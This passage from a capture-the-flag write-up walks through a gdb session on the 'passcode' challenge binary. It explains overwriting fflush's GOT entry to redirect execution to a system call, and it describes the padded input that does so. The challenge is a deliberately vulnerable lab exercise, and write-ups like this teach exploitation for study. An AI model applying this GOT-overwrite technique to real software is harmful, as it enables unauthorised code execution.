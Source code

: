 ```
   0x08048604 <+160>:	call   0x8048480 <exit@plt>
End of assembler dump.
(gdb) si
0x080484a0 in __isoc99_scanf@plt ()
(gdb) disas
Dump of assembler code for function __isoc99_scanf@plt:
=> 0x080484a0 <+0>:	jmp    *0x804a020
   0x080484a6 <+6>:	push   $0x40
   0x080484ab <+11>:	jmp    0x8048410
End of assembler dump.
(gdb) 
```

The instruction at `0x080484a0` says `jmp *0x804a020`. This translates to, jump `eip` to the address contained in the value of the address `0x804a020` All external function calls are done like this, meaning that if we could overwrite the value at one of these addresses and call the function, it will allow us to jump anywhere in the program. When looking at the function calls after `scanf` we see `fflush`, lets see if we can take advantage of it!

First, we need `fflush`'s `jmp` address, which can get by setting a breakpoint at the call to the function in `login` and stepping in.
```
(gdb) b *0x08048593
Breakpoint 2 at 0x8048593
(gdb) c
Continuing.

Breakpoint 2, 0x08048593 in login ()
(gdb) si
0x08048430 in fflush@plt ()
(gdb) disas
Dump of assembler code for function fflush@plt:
=> 0x08048430 <+0>:	jmp    *0x804a004
   0x08048436 <+6>:	push   $0x8
   0x0804843b <+11>:	jmp    0x8048410
End of assembler dump.
(gdb) 
```
Our address is `0x0x804a004`, this is what we will be sticking into `passcode1`, now lets find the address of our winner winner chicken dinner function. We see in `login` a `system` call, we can safely say `0x080485e3` is it.

When we look at `passcode.c` we see the `passcode1` input only will accept a decimal number via the format string `"%d"`. therefore, we will want to take our winner winner address and convert it into decimal, `134514147`.

With all this information we can write the solution now!

## Solution
First we pad our name with 96 A's, then put the address of `fflush`'s `jmp` in in little endian format, followed by the our winner address `134514147`.
